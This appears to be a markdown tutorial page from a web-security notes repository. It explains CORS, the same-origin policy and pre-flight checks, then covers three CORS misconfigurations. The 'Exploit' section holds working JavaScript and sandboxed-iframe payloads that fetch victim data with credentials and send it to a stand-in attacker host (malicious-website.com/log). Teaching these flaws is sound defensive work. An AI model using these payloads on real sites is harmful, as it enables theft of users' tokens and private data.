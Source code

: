 # CORS (Cross-origin resource sharing)

CORS (Cross-Origin Resource Sharing) is a security feature implemented by web browsers that controls how web pages in one domain can request and interact with resources from another domain.

### Table of content 

- **Explanation**
- [Same-origin policy (SOP)](#same-origin-policy-sop)
- [Access-Control-Allow-Origin](#access-control-allow-origin)
    - [Handling cross-origin resource requests with credentials](#handling-cross-origin-resource-requests-with-credentials)
    - [Pre-flight checks](#pre-flight-checks)
- **Exploit**
- [Sever-generated ACAO header from client-specified Origin header](#sever-generated-acao-header-from-client-specified-origin-header)
- [Errors parsing Origin headers](#errors-parsing-origin-headers)
- [Whitelisted null origin value](#whitelisted-null-origin-value)

## Same-origin policy (SOP)

The same-origin policy restricts scripts on one origin from accessing data from another origin. An origin consists of a URI scheme, domain and port number.

[-> Site vs Origin explane](/web/client-side/csrf.md#site-vs-origin)

```c
http://normal-website.com/example/example.html:8080
|  |   |                |                      |   |
----    ----------------                       ----
|      |                                       |_ '8080' = port
|      |
|      |_ 'normal-website.com' = domain
|
|_ 'http' = scheme
```

To be consider as the same origin it must have the same scheme, domain and port.

## Access-Control-Allow-Origin 

The same-origin policy is very restrictive and consequently various approaches have been devised to circumvent the constraints.

The Access-Control-Allow-Origin header is included in the response from one website to a request originating from another website, and identifies the permitted origin of the request. A web browser compares the Access-Control-Allow-Origin with the requesting website's origin and permits access to the response if they match.

my-website.com -> *send a request to* -> another-website.com

:warning: It is another origin ! but if another-website.com include `Access-Control-Allow-Origin: https://my-website.com`, another-website.com allow me to access ressources from is webpage.

Access-Control-Allow-Origin control who can get access to your ressources.

### Handling cross-origin resource requests with credentials

The default behavior of cross-origin resource requests is for requests to be passed without credentials like cookies and the Authorization header. However, the cross-domain server can permit reading of the response when credentials are passed to it by setting the CORS Access-Control-Allow-Credentials header to true.

Request:

```
GET /data HTTP/1.1
Host: robust-website.com
...
Origin: https://normal-website.com
Cookie: JSESSIONID=<value>
```

Answer:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true
```

### Pre-flight checks

The pre-flight check is a request send by the client to the server to see if the method and potentially others header are allowed:

Request:

```
OPTIONS /data HTTP/1.1
Host: <some website>
...
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```

Response:

```
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

--- 

## Exploit

## Sever-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. To maintain it, they read the Origin header from requests and including a response header stating that the requesting origin is allowed.

Request:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Answer:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

**payload**:

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

OR

```js
fetch('https://vulnerable-website.com/sensitive-victim-data', { credentials: 'include' })
    .then(response => response.text())
    .then(data => {
        location = '//malicious-website.com/log?key=' + data;
    })
    .catch(error => console.error('Erreur : ' + error));
```

## Errors parsing Origin headers
 
Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header so that access is granted.

Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions.

For example, suppose an application grants access to all domains ending in:

```
normal-website.com
```

An attacker might be able to gain access by registering the domain:

```
hackersnormal-website.com
```

Alternatively, suppose an application grants access to all domains beginning with

```
normal-website.com
```

An attacker might be able to gain access using the domain:

```
normal-website.com.evil-user.net
```

## Whitelisted null origin value

The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.

Sandbox Payload:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

OR

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
fetch('https://vulnerable-website.com/sensitive-victim-data', { credentials: 'include' })
    .then(response => response.text())
    .then(data => {
        location = '//malicious-website.com/log?key=' + data;
    })
    .catch(error => console.error('Erreur : ' + error));
</script>"></iframe>

```

---

[**:arrow_right_hook: Back home**](/README.md)